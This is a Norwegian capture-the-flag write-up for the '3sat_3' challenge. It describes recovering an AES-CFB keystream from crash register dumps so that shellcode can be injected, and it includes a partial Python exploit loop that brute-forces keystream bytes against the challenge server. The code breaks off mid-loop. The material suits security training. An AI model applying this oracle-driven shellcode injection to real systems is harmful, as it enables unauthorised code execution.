 
### 2.6.3_3sat_3

Siste oppgave i serien er litt enklere enn den foregående. Likt som i 3sat_2 leses flagget inn i et buffer, og inputen vår inn i et annet buffer, men nå har de fikset det slik at nøkkelen faktisk brukes som en nøkkel. Nøkkelen er også satt til å være flagget - som vi ikke vet hva er - i stedet for en hardkodet streng. AES mode har blitt endret fra ECB til CFB, som er en stream cipher som XORes mot inputen vår. Til sist har de også fjernet kallet til hexdump-funksjonen, så vi kan ikke lengre se hva som skjer.

En ting som ikke er fjernet, er `brek.h`, en fil som hooker alle signaler og dumper register-verdiene når en kræsj oppstår. Løsningen min baserer seg på outputs fra nettopp denne.

Ved å se på registerne når noe kræsjer, er det mulig å se hvilke instruksjoner som har blitt kalt basert på verdiene til registerne. Eksempelvis om `rax == 0xb0070000` så er det mulig at en av instruksjonene var `xchg eax,edx` som er en 1-byte instruksjon med verdi `0x97`. Vi kan teste denne teorien ved å XORe inputen vår med `0x97 ^ 0x92` for å gjøre den om til en `xchg eax, edx` i stedet. Hvis verdien fra edx da plutselig er 2, så vet vi både input og plaintext for den byten og kan derfor utlede keystream-byten på samme sted via XOR. Ved å utføre denne operasjonen flere ganger, og sette de bytene vi vet til NOP (0x90), kan vi få ut nok bytes til å skrive inn shellcoden vår.

```python
def run(payload):
    r = remote("3sat.utl", 2003)
    r.sendafter(b"\n", payload)
    res = r.recvall().decode().splitlines()

    regs = {}
    for reg in res[2:]:
        reg,val,*_ = reg.strip().split()
        regs[reg] = int(val,16)
    r.close()
    return regs

payload = bytearray(4096)
keystream = b""
L = len(keystream)

for ksi in range(L, 8):
    print("Current keystream:", keystream.hex())
    payload = bytearray(xor(b"\x90", keystream))
    payload += urandom(4096 - len(payload))
    assert len(payload) == 4096

    for i in range(256):
        payload[ksi] = i
        regs = run(payload)
        if "rax" in regs:
            print(hex(i), hex(regs["rax"]))
            if regs["rax"] == 0xb0070000: # Potential 92 xchg eax,edx
                payload[ksi] = i ^ 0x92 ^ 0x97
                regs = run(payload)
                if regs.get("rax", 0) == 2:
                    keystream += bytes([i ^ 0x92])
                    break

            elif regs["rax"] == 2: # Potential 97 xchg eax,edi
                payload[ksi] = i ^ 0x92 ^ 0x97
                regs = run(payload)
                if regs.get("rax", 0) == 0xb0070000:
                    keystream += bytes([i ^ 0x97])
                    break
        else:
            print(hex(i), regs)
    else:
```